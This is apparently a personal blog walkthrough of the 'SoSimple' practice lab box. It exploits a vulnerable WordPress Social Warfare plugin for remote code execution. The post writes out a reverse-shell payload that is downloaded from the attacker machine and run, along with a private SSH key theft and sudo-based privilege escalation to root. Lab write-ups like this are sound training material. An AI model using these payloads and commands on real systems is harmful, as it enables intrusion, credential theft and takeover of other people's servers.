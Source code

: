 ```yaml
---
layout: post
title: "SoSimple Walkthrough"
subtitle: "a good pg play box!"
date: 2023-02-08
author: "Peter"
header-img: "img/post-bg-hack.jpg"
tags: [walkthrough]
---
```


This box is named so simple, however it's a medium boxes, it's hard to expect it will be that simple to catch the flags.

The target of this box is to catch the root flag and the user flag, so let's begin.

From the information provided by the box, we have the ip as below:

attack IP: `192.168.76.78`  
local IP: `192.168.49.76`

So let's start to scan the ports, I'm using commands that basically run the scan and the service scan, and save the result to log file.
```bash
nmap -vv -Pn -sV -sS -oN 192.168.76.78.log 192.168.76.78
```

As the result, Nmap have found two ports on, which is http and ssh. That indicates it's a simple web app with a ssh to get into the server. No other fancy setups.
```nmap
22/tcp open ssh syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open http syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
```

After knowing the result, we can start to find the way to enter the server, at first we will be head into a main page with only a simple picture on it. And there's no useful information inside the terminal. 
![[/img/in-post/sosimple/Pasted image 20230207195730.png]]

From wappalyzer and nmap that we could know it's a  2.4.41 apache server, so here comes two attempts:
1. Find if there's Apache 2.4.41 exploit
2. Use directory search to the website

As the first approach, there's no 2.4.41 exploit. *Also the boxes could not be that simple*

So let's dive into the second app approach, here we choose to run gobuster to the target website, using the medium wordlist
```bash
gobuster dir -u 192.168.76.78 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o
```

As the gobuster result, we found there's `/wordpress` available on the website, no other directory available.  *Sorry forgot to screenshot*

So head into the wordpress, before going deep into the scanner, it would be good to search for the useful information on the site, unfortunately there's no any other than knowing the wordpress version.

So we could run the WPScan, and remember to sign up to the WPScan website to get the token that the WPScan will tell you which vulnerability appears on the website.  
```
wpscan --url 192.168.76.78/wordpress --api-token YOUR_TOKEN
```

As the WPScan result, there's one called [social warfare](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618) seemed to be useful, so we could follow the exploit instruction to start exploit the web page.  

First, we could test if the payload is useful or not by the step as follow:
1. Create payload including `<pre>system('cat /etc/passwd')</pre>`
2. Start a simple http server `python3 -m http.server 80`
3. Type the payload url `http://192.168.76.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.49.76/swpayload.txt`

It works like a charm, but it's inconvenient to use the web interface like that, it'd be better to use a reverse shell instead. So we need to generate a payload and activate the reverse shell.
![[/img/in-post/sosimple/Pasted image 20230206225851.png]]

So we need to:
1. Generate a payload
2. Download and execute the payload at the target machine

First, to generate the payload we could use [reverse shell generator](https://www.revshells.com/) that have
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.76 LPORT=5566 -f elf -o reverse.elf
```

Before execute the payload, don't forget to open a netcat listener.
```bash
nc -lvnp 5566
```

Then we could modify the command to download and execute the payload
```xml
<pre>system('wget 192.168.49.76/reverse.elf && chmod +x ./reverse.elf && ./reverse.elf')</pre>
```

After execute the url again, we successfully accessed the reverse shell. *The ip is used for renewing the pictures, please don't bother with it*
![[/img/in-post/sosimple/Pasted image 20230207205407.png]]

So after we accessed the server, it's time for us to look for some credentials. There usually are some information that will be inside of:
```
/home
/tmp
/opt
```

We found we could access `/home/max` and the file inside it by using
```bash
ls -lah /home/max/
```
![[/img/in-post/sosimple/Pasted image 20230207205915.png]]

To simplify the explanation, the first flag is at `local.txt`. And we found `.ssh` might include the information that could be very helpful. And boom! `id_rsa` is inside the `.ssh` folder, so we could use it to ssh as the identity of max.

First, copy the private key to your local directory. Remember the key format, that it should look as follow with a empty line at below and two separate line don't stuck with the key itself.  **I lost my points on this step :<**

```
-----BEGIN OPENSSH PRIVATE KEY-----
HASH
-----END OPENSSH PRIVATE KEY-----

```

Then we could ssh into the target machine with 
```bash
ssh -i id_rsa max@192.168.76.78
```

After accessing with max, it could be good to run scanning scripts like linpeas.
```bash
mkdir /tmp/hi && cd /tmp/hi && wget 192.168.49.76/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh | tee linpeas.log
```

We found the useful information as below with the yellow highlighted. Which is checked by `sudo -l`
![[/img/in-post/sosimple/Pasted image 20230207023908.png]]

It means we can run the `/usr/sbin/service` with user `steven`, and we know from [gtfobins](https://gtfobins.github.io/gtfobins/service/) that we can use the service to access a bash with follow command.
``` bash
sudo -u steven /usr/sbin ../../bin/sh
```

After enter the bash with `steven`, run `sudo -l` again, we'll found out that we can run `/opt/tools/server-health.sh` with root permission with no password needed.
![[/img/in-post/sosimple/Pasted image 20230207033041.png]]

However, there's no file found as `/opt/tools/server-health.sh`, so we make one by our self then execute it.
``` bash
mkdir /opt/tools/
touch /opt/tools/server-health.sh
echo '/bin/bash' >> /opt/tools/server-health.sh
# Don't forget to add permission
chmod +x /opt/tools/server-health.sh
```

Then we run as root
``` bash
sudo -u root /opt/tools/server-health.sh
```

Viola! We get the root permission and we could catch the root flag!
